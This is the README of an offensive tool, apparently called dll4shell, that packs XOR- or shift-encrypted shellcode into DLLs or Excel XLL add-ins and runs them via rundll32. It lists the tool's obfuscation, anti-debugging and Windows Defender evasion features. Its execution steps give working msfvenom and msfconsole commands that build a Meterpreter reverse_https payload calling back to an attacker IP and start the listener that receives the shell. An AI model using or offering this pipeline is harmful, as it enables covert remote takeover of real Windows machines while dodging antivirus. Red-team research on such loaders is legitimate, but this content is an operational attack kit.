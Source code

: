 ### C++ shellcode launcher

A collection of shellcode injection techniques to run as dll via rundll32. Based on the "charlotte" tool and research mentioned in external references. 

Current features include:

* Using classic chain VirtualAlloc - CreateThread to execute the code in rundll32 process.
* Shellcode XOR and Cezar / Shift encryption.
* Simple python script to do the magic.
* Random names of functions and params for obfuscation.


### Execution steps
```
git clone https://github.com/cepxeo/dll4shell && cd dll4shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 EXITFUNC=thread -f raw -e x64/xor_dynamic -a x64 -o beacon.bin

sudo apt install mingw-w64
python dll4shell.py -e xor (alternalively: -e shift)

sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST YOUR_IP; set LPORT 8443; exploit"
```

Techniques used (`-e` parameter):

|Value           |Obfuscation method, Details    |Code invocation              |
|----------------|-------------------------------|-----------------------------|
|xor             |XOR, const char                |VirtualAlloc, CreateThread   |
|xor1            |XOR, unsigned char             |VirtualAlloc, CreateThread   |
|xor2            |XOR, antidebugging             |ProcInj (VirtualAllocEx, CreateRemoteThread)|
|xor3            |XOR, antidebugging             |hHeapAlloc, hCreateThread    |
|shift           |Cezar, const char              |VirtualAlloc, CreateThread   |
|shift1          |Cezar, unsigned char           |VirtualAlloc, CreateThread   |

Outputs (`-o` parameter):

|dll            |DLL callable via rundll32|
|xll            |XLL callable via Add-Ins|


### External references

* [charlotte](https://github.com/9emin1/charlotte)
* [Bypassing Windows Defender with Environmental Decryption Keys](https://www.secarma.com/bypassing-windows-defender-with-environmental-decryption-keys/)